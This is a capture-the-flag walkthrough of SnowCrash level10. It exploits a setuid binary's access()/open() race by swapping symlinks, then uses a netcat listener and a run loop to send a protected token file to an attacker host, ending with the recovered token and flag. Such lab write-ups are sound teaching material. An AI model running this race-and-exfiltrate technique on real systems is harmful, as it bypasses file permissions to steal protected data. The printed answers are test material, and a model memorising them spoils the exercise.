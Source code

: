 - In `/home/user/level10` we find the binary `level10` and a `token` file. We do not have permission to read the `token` file. The `binary` seems to send the file contents to a remote host, only if the file can be read.

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 10.13.200.129
You don't have access to token
```

- Often when a file is sent to a remote network, the file permissions are not preserved. This means that if we can trick the binary into sending the file, we will be able to read the file on the remote network.

- We ex-filtrate the binary to the attack machine and de-compile the contents with `ghidra` . The file permissions are checked in the line `iVar2 = access((char *)in_stack_00000008[1],4);` and if the check returns the value 0, a connection is made before the line `iVar3 = open(pcVar6,0);` opens and reads the file to send its contents.

`<snip>`
![[Pasted image 20250914061117.png]]
```<snip>```
![[Pasted image 20250914061344.png]]
```<snip>```

- If we can switch the files between the access check and open functions, we can trick the binary into allowing us access to the file. This is a TOCTOU attack. Time-of-open-to-time-of-use. We want the binary to do the following:
		- Run access() on a dummy file we have read permissions over
		- Run open() on the token file

- We can achieve this by creating a script which continuously switches symlinks between the dummy file and the token file. Essentially, a race condition attack.

- Create a dummy file
```
level10@SnowCrash:/tmp$ echo test > /tmp/dummy
```

- Create a script to switch symlinks between the dummy file and the token file and run the script to create the continous switching
```
level10@SnowCrash:/tmp$ pwd
/tmp
level10@SnowCrash:/tmp$ cat racer.sh

#!/bin.bash
while true; do
    ln -sf /tmp/dummy /tmp/tryme
    ln -sf /home/user/level10/token /tmp/tryme
done

level10@SnowCrash:/tmp$ chmod +x racer.sh
level10@SnowCrash:/tmp$ ./racer.sh
```

- The port 6969 was identified after failed connection attempts from running the `level10` binary. Start a netcat listener on our attack machine on port 6969 which will continuously accept incoming files and connections. If we don't do this, the netcat listener will close after the first file is received, which could be the dummy file. 

```
──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ while true; do
while> nc -lnvp 6969;
while> done;                                                          
listening on [any] 6969 ...
```

- Run the `level10` binary with the symlink `/tmp/tryme` in a while loop to continuously  check and send files to the attack machine, and hopefully have a race condition which will check the dummy file for access and proceed the program to open the token file.

```
level10@SnowCrash:~$ while true; do ./level10 /tmp/tryme 10.13.200.129; done;
<snip>
You don't have access to /tmp/tryme
Connecting to 10.13.200.129:6969 .. Connected!
Sending file .. wrote file!
Connecting to 10.13.200.129:6969 .. Unable to connect to host 10.13.200.129
Connecting to 10.13.200.129:6969 .. Connected!
Sending file .. wrote file!
You don't have access to /tmp/tryme
Connecting to 10.13.200.129:6969 .. Connected!
<snip>
```

- Eventually in the listener loop on the attack page you can distinguish between the dummy file and the token file with the contents `woupa2yuojeeaaed06riuj63c` 

![[Pasted image 20250914061903.png]]

- Authenticate to `flag10` using token `woupa2yuojeeaaed06riuj63c` to obtain the flag
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

- Authenticate to `level11` with the token
```
flag10@SnowCrash:~$ su level11
Password: 
level11@SnowCrash:~$ 
```